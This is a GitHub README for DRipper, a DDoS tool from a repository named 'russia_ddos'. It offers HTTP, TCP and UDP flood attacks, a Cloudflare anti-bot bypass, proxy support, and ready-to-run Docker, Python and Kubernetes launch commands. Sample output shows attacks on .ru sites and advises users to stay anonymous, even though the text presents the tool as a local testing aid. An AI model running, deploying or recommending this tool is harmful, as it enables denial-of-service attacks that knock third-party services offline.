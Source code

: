 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]
[![License: MIT][license badge]][license link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## Features

### Attacks

- HTTP Flood - OSI Layer 7 method volumetric attack type
- HTTP Bypass - OSI Layer 7 method volumetric attack type with to bypass Cloudflare's anti-bot page (also known as "I'm Under Attack Mode", or IUAM)
- TCP Flood - OSI Layer 4 method volumetric attack type
- UDP Flood - OSI Layer 4 method volumetric attack type

### Other features

- Multiple targets support - the script can attack multiple targets at the same time
- Detailed statistics with deep attack log for better attack analysis during the attack
- Display average request rate and throughput
- Periodic checks of your public IP address to ensure your privacy and VPN connection survivability.
- Automatic and periodic checks for the availability of the attacked host
- Distributed statistics of the response code for the attacked host, which helps you to understand the effectiveness of attacks
- Detection of redirects and rate limits with alerts in the event log

## How it looks

```bash
───────────────────────────────────────── Starting DRipper ─────────────────────────────────────────
[23:17:39] (1/3) tcp://www.site1.ru:80/ (192.168.0.101:80) Trying to connect...      services.py:135
           (1/3) tcp://www.site1.ru:80/ (192.168.0.101:80) Connected                 services.py:138
           (1/3) https://www.site2.ru:443/ (192.168.0.102:443) Trying to connect...  services.py:135
           (1/3) https://www.site2.ru:443/ (192.168.0.102:443) Connected             services.py:138
────────────────────────────────────────────────────────────────────────────────────────────────────


                        ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
                        ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
                        ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
                        ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
                        ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
                        ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                                                    v2.5.0

                  It is the end user's responsibility to obey all applicable laws.
                  It is just like a server testing script and Your IP is visible.
                                Please, make sure you are ANONYMOUS!

                             https://github.com/alexmon1989/russia_ddos


 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Description                                 Status
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Start Time, Duration                        2022-04-08 23:17:29  (0:00:14)
  Your Country, Public IP                     DK   45.***.***.***
  Total Threads                               200
  vCPU Count                                  8
  Socket Timeout (seconds)                    1
  Random Packet Length                        True | Max length: 1024
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Target (tcp://www.site1.ru:80/)             1/2 (next in 1)
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Country, Host IP                            RU  192.168.0.101:80 (target-0)
  Attack Method                               TCP-FLOOD
  Threads                                     100
  CloudFlare Protection                       Not protected
  Availability (check-host.net)               ...detecting (TCP method)
  Sent Bytes @ AVG speed                      1.73 MB @ 119.76 kB/s
  Sent Packets @ AVG speed                      3,531 @ 238 packets/s
  Connections                                 success: 100, failed: 0, success rate: 100 %
 ──────────────────────────────────────────────────────────────────────────────────────────────────

  Events Log
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  [23:17:40]   info   target-0  thread-14   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-114  Creating new TCP connection...
  [23:17:40]   info   target-0  thread-16   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-20   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-22   Creating new TCP connection...

                                 Press CTRL+C to interrupt process.

                                         #StandWithUkraine
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.

```bash
Usage: DRipper.py [options] arg

Options:
  --version                                             show program's version number and exit
  -h, --help                                            show this help message and exit
  -s TARGETS, --targets=TARGETS                         Attack target in {scheme}://{hostname}[:{port}][{path}] format.
                                                        Multiple targets allowed.
  -m ATTACK_METHOD, --method=ATTACK_METHOD              Attack method: udp-flood, tcp-flood, http-flood, http-bypass
  -e HTTP_METHOD, --http-method=HTTP_METHOD             HTTP method. Default: GET
  -t THREADS_COUNT, --threads=THREADS_COUNT             Total threads count. Default: 100
  -r RANDOM_PACKET_LEN, --random-len=RANDOM_PACKET_LEN  Send random packets with random length. Default: 1
  -l MAX_RANDOM_PACKET_LEN, --max-random_packet-len=MAX_RANDOM_PACKET_LEN
                                                        Max random packets length. Default: 1024 for udp/tcp
  -y PROXY_LIST, --proxy-list=PROXY_LIST                File (fs or http/https) with proxies in
                                                        ip:port:username:password line format. Proxies will be ignored
                                                        in udp attack!
  -k PROXY_TYPE, --proxy-type=PROXY_TYPE                Type of proxy to work with. Supported types: socks5, socks4,
                                                        http. Default: socks5
  -c HEALTH_CHECK, --health-check=HEALTH_CHECK          Controls health check availability. Turn on: 1, turn off: 0.
                                                        Default: 1
  -o SOCKET_TIMEOUT, --socket-timeout=SOCKET_TIMEOUT    Timeout for socket connection is seconds. Default (seconds): 1
                                                        without proxy, 2 with proxy
  -d, --dry-run                                         Print formatted output without full script running.
  --log-size=LOG_SIZE                                   Set the Events Log history frame length.
  --log-level=EVENT_LEVEL                               Log level for events board. Supported levels: info, warn, error,
                                                        none.

Example: dripper -t 100 -m tcp-flood -s tcp://192.168.0.1:80
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -m http-flood -s http://127.0.0.1:80 
# or
docker run -it --rm alexmon1989/dripper:latest -t 100 -s http://127.0.0.1:80
# or even
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -l 2048 -s tcp://127.0.0.1:80 

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -l 2048 -s udp://127.0.0.1:80 
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/alexmon1989/russia_ddos.git
# Run script
dripper -t 100 -s udp://127.0.0.1:80


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 DRipper.py -t 100 -s udp://127.0.0.1:80
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install -r requirements.test.txt
```

#### Run
```bash
pytest

# with code coverage report:
pytest --cov=ripper tests/
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md

[license badge]:       https://img.shields.io/badge/License-MIT-yellow.svg
[license link]:        ./LICENSE
